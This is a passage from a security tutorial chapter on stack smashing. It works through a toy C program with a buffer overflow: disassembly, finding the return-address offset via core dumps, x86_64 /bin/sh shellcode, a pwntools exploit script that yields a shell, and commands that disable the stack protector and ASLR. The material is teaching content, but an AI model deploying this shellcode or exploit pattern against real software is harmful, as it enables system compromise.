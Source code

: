 # Chapter 1. Stack Smashing
In this chapter, we discuss the most common and easy-to-understand memory-safety problems: stack buffer overflow. An attacker could leverage such bugs to modity the stack and achieve malicious goals, knowning as stack smashing. We will not dive into the technical details of exploit writting (there are many such tutorials and tools available online, e.g., for CTF training) but mainly discuss why such bugs are dangerous and show how attacks could happen in practice. 

## Section 1. Stack Smashing

### Warm Up
Let's use the following code snippet as a toy example, which contains a validation process that requires the user to input a key to pass the validation. The code contains a buffer overflow bug because the length of buf is 64 while it may read 160 byte data. Supposing the user neither know a valid key nor can obtain the source code. How can he find a key to pass the validation? 

```
int validation() {
    char buf[64];
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){ //any code to check the input
        write(STDOUT_FILENO, "Key verified!\n", 14);
        return 1;
    }else{
    	write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    return 0;
}
```
The trick lies in the stack layout, and we can obtain the layout by analyzing its assembly code.
```
0x401150 <+0>:     push   %rbp
0x401151 <+1>:     mov    %rsp,%rbp
0x401154 <+4>:     sub    $0x50,%rsp
0x401158 <+8>:     xor    %edi,%edi
0x40115a <+10>:    lea    -0x50(%rbp),%rsi
0x40115e <+14>:    mov    $0xa0,%edx
0x401163 <+19>:    callq  0x401050 <read@plt>
0x401168 <+24>:    movsbl -0x50(%rbp),%ecx
0x40116c <+28>:    cmp    $0x24,%ecx
0x40116f <+31>:    jne    0x40119a <+74>
0x401175 <+37>:    mov    $0x1,%edi
0x40117a <+42>:    movabs $0x402004,%rsi
0x401184 <+52>:    mov    $0xe,%edx
0x401189 <+57>:    callq  0x401030 <write@plt>
0x40118e <+62>:    movl   $0x1,-0x4(%rbp)
0x401195 <+69>:    jmpq   0x4011ba <+106>
0x40119a <+74>:    mov    $0x1,%edi
0x40119f <+79>:    movabs $0x402013,%rsi
0x4011a9 <+89>:    mov    $0xb,%edx
0x4011ae <+94>:    callq  0x401030 <write@plt>
0x4011b3 <+99>:    movl   $0x0,-0x4(%rbp)
0x4011ba <+106>:   mov    -0x4(%rbp),%eax
0x4011bd <+109>:   add    $0x50,%rsp
0x4011c1 <+113>:   pop    %rbp
0x4011c2 <+114>:   retq
```
![image](./figures/chapt1-stack-main.png)

Let's assume the our porpose is to enforce the function to return 1, so we can trace the data flow of the return value backwards. Starting from Line <+106>, we know the return value of the register (%eax) is moved from the stack -0x4(%rbp). Line <+99> saves 0x0 to -0x4(%rbp), while Line <+62> saves 0x1 to -0x4(%rbp). So we can tamper the buffer of -0x4(%rbp) to bypass the validation. Line <+4> tells us the assembly code increases the stack size with 0x50. We can compute the offset of -0x4(%rbp) to the register %rsp should be 0x4b or 76 in decimal. In order to let the function return 1, we can input a 76-byte buf with the last four bytes to be 1.

### Stack Smashing
A stack smashing attack contains three major steps:
- Step 1. Detect buffer overflow bugs or find an input that can crash a program. This is usually done via fuzz testing. 
- Step 2. Analyze stack layout of the buggy code. In practice, attackers may not be able to obtain the executables. 
- Step 3. Design the exploit. To obtain the shell. e.g., with return-oriented programming.

Now, we discuss a more general senario, i.e., 1) the attacker cannot obtain the binaries, and 2) his goal is to obtain the shell. 

#### Stack Layout Analysis
The purpose is to obtain the offset of the return address so that we can point it to the another code address, e.g., shell code. Let's still use our previous toy program for demonstration. The idea is to input several 'A's (hexdecimal ASCII: 0X41). If it has changed the return addresses, then the program will not be able to continue the execution and report the bad return address. We can gradually increase the length of the input to learn the offset of the return address. 

| previous frame |
|:--------------:|
|   ret address  |
|       ...      |
|    AAAAAAAA    |

Before experiments, we need to turn on the core dump message
```
#: ulimit -c unlimited
#: sudo sysctl -w kernel.core_pattern=core
```

Input several 'A's and check the core dump message.
```
#: python -c 'print "A"*92'
#:./bug 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA…
Wrong license!
Segmentation fault (core dumped)

#: gdb --core core 
...
Program received signal SIGSEGV, Segmentation fault.
0x0000000a41414141 in ?? ()
```
The log message displays a segmentation fault caused by a invalid return address 0x0000000a41414141. Because there are four 'A's, we can know the offset of the return address should be 92-4=88. Note that if you try more a 'A's, the error message may not be 0x0000414141414141 but another different address because 0x0000414141414141 is an invalid code address to the OS.

#### Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	 buf[i] = shellcode[i]; 
  ((void (*) (void)) buf) ();
}
```

If it works, we can inject the shellcode to the vulnerable program.
```
#! /usr/bin/env python
from pwn import *

ret = 0x7fffffffe1d0
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + "A" * (88-len(shellcode)) + p64(ret)
p = process("./bug")
p.send(payload)
p.interactive()
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```
#: python hijack.py 
[+] Starting local process './bug': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```

If not, it possibly means you are using the stack protector or the ASLR. Turn off the stack protector when compiling the buggy program to eable the data on the stack to be executable.
```
#: clang -fno-stack-protector -z execstack bug.c
```

You can also turn off the ASLR as following.
```
#: echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Section 2. Protection Techniques
